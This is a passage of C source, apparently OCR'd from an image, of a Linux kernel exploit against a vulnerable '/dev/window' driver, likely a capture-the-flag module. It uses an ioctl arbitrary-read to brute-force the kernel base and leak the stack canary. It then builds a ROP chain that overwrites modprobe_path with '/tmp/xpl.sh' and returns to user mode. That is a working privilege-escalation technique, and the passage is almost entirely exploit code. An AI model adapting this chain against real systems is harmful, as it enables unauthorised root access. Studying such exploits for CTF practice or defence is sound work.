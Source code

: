 ```c
        puts(msg);
        exit(-1);
}

unsigned long aar(unsigned long ptr) {
        unsigned long leak[264/8] = {0};
        leak[0] = ptr;
        ioctl(fd, 0x1337, leak);
        return leak[1];
}

int main() {

        unsigned long kbase = 0;
        char new_path[] = "/tmp/xpl.sh\x00";

        save_state();
        fd = open("/dev/window", O_RDWR);
        if (fd == -1)
                perror("error: unable to open /dev/window");

        kbase = 0xffffffff80000000;

        while (1) {
                unsigned long ret = aar(kbase);
                printf("[-] trying 0x%lx... got 0x%lx\n", kbase, ret);
                if (ret != 0) {
                        break;
                }
                printf("\r");
                kbase += 0x100000;
        }

        unsigned long canary = aar(aar(kbase+0x2744050)-0x6db898);

        printf("[*] kbase at 0x%lx\n", kbase);
        printf("[*] canary at 0x%lx\n", canary);

        char payload[0x1000];
        unsigned long* krop = (unsigned long*)&payload[0x40];

        // fixup canary
        *krop++ = canary;
        *krop++ = 0;

        // copy_from_user(modprobe_path, xpl_sh, strlen(xpl_sh)+1)
        *krop++ = pop_rdi;
        *krop++ = modprobe_path;
        *krop++ = pop_rsi;
        *krop++ = (unsigned long)new_path;
        *krop++ = pop_rdx;
        *krop++ = strlen(new_path) + 1;
        *krop++ = copy_from_user;

        // return gracious to user-mode -> win function 
        *krop++ = swapgs_iret;
        *krop++ = 0;
        *krop++ = 0;
        *krop++ = user_rip;
        *krop++ = user_cs;
        *krop++ = user_rflags;
        *krop++ = user_sp;
        *krop++ = user_ss;
```